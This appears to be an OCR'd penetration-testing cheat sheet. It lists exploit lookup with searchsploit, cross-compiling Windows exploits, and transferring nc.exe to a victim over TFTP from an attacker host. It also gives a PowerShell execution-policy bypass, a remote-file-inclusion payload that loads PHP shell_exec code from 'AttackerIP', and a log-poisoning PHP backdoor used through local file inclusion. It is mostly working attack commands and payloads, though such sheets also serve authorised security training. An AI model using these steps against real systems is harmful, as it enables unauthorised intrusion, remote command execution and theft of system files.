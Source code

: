 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code 
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI 
#Contaminate the web server log with a PHP backdoor 
$ nc -nv TargetIP 80 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file 
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
